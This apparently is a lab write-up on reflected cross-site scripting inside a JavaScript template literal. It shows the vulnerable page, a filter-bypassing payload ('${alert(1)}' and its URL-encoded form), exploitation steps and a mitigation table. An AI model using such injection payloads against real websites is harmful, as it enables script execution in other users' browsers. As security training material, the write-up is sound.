

# Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
❓

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.
```



---

### **🔍 What the page does**

```html

<section class="blog-header">
  <h1 id="searchMessage">0 search results for '\u2026'</h1>

  <script>
    var message = `0 search results for '\u2026'`;
    document.getElementById('searchMessage').innerText = message;
  </script>
  <hr>
</section>
```

- The server copies the **search term** into the template literal (back-tick string).
- Dangerous characters are neutralized:
  - \<, >, ', ", \`, \\ ⇒ converted to \\u00xx.
- **\$, \{, \} stay intact.** That’s the foothold.

---

### **⚙️ Crafting the payload**

- Inside a template literal, \$\{ … \} is an **expression placeholder**.
- Because \$\{ isn’t encoded, you can inject JavaScript **without breaking any quotes**.

**Payload (search box):**

```javascript
${alert(1)}
```

URL-encoded form:

```javascript
/?search=%24%7Balert(1)%7D
```

---

### **🚀 Exploitation steps**

1. **Open the lab**.
2. In the search bar, paste **\$\{alert(1)\}** and submit.
3. Page renders → template literal evaluates → alert(1) executes → lab solved ✅.

---

### **💡 Why it works**

```javascript
var message = `0 search results for '${alert(1)}'`;
                    └─── user input becomes `${alert(1)}`
```

- During evaluation, ES 6 replaces \$\{alert(1)\} with the result of alert(1) (which is undefined), but the function still runs.
- No characters the filter escapes are needed, so the defense is bypassed.

---

### **🛡️ Mitigation**

| **Risk** | **Fix** |
|---|---|
| User data inside template literals | **Escape/validate** \$\{, \{, \} or build the string with textContent instead of JS interpolation. |
| Inline scripts | Move logic to external JS; set script-src 'self' & unsafe-inline-free CSP. |
| Generic XSS | Context-aware encoding before output; prefer DOM APIs that don’t parse HTML. |

---
